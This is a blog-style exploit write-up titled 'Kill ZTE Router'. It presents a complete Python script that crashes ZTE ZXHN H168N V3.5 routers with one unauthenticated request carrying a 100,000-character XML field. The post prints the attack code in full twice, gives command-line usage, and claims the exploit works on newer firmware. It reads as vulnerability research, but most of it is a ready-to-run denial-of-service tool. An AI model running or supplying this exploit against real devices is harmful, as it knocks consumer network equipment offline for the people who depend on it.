 ```yaml
---
title: "Exploit Writing (KILLx108): Kill ZTE Router "
classes: wide
header:
  teaser: /assets/images/clchdo96yeclu0jp8gj7mf54a.png
ribbon: gray
description: "Exploit for unknown vulnerability in `ZXHN H168N V3.5` to kill the device with one request."
categories:
  - IoT Exploitation
tags:
  - IoT Exploitation
toc: true
---
```


# Introduction
After we had a lot  of information and understand where is the bug in the previous research (You can read it from [here](https://zeyadazima.com/defense%20evasion/portspoof/)). Now, It's time to exploit it and create an exploit.

# The Exploit
It's time to explain how to exploit it. So, previously it seems to be parsing the `XML` request we send and exposing information about `Objects/Parameters` and their values. and whatever `XML`  request we send it's back with the same information. But, even tho we can not access these information if we are not authenticated. But, It's still parsing our request if we are not authenticated. So, Let's try our large value again here. And if we did that we will triage a crash in the router.

- First we imported the needed libraries we going to use
```
import random
import string
import sys
import urllib3
import requests
```

- `requests`: to send our request exploit to the target.
- `urllib3`: I used it here to diable the warings.
- `sys`: to take arguments from the user through the command line.
- `string`: to use it for the random library in generating the payload.
- `random`: to create a payload with random strings from the `strings` library.
<br>
- Second part a function taking 2 arguments
```
def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
```

Basically, This function will take 2 arguments which is `protocol`, ethier is `http` or `https` and the `target` you want to exploit it. Then, it will check if the target alive and responded or no. After that in the following lines:
```
create = string.ascii_uppercase
payload = ''.join(random.choice(create) for i in range(100000))
```
it will create a random `100000` length of strings to send it with the request and crash the device.

- Full code:
```
```
import random
import string
import sys
import urllib3
import requests


urllib3.disable_warnings()


def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending your request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
            try:
                att = requests.post(url, headers=Headers, cookies=cookies, data=Data, verify=False, timeout=5)
                print("[-] Target is not Vulnerable")
                sys.exit()
            except requests.exceptions.Timeout:
                print("[+] Target vulnerable and dead now")

            print("[+] Exploit by: Zeyad Azima")

        else:
            print("[-] Your Target is not Alive")
    except Exception as error:
        print("[-]", error)

```
```
try:
    if sys.argv[2] == "http" or "https":
        attack(sys.argv[1], sys.argv[2])
    else:
        print("[-] Please enter a valid protocol (http or https)")

except IndexError:
    print("[-] Please Set your target \n ex: exploit.py target protocol")
```

- Usage
```
python3 exploit.py IP http/s
```

![7af704b3c8e1921061c437d260c30ccf.png](/assets/images/7af704b3c8e1921061c437d260c30ccf.png)

# Conclusion
At the end, it was a simple bug, But it's lead to take the device down. The exploit works with the other new and updated versions. You can see the full code here on github.

By: [Zeyad Azima](https://www.linkedin.com/in/zer0verflow/)  
Source: Vsociety

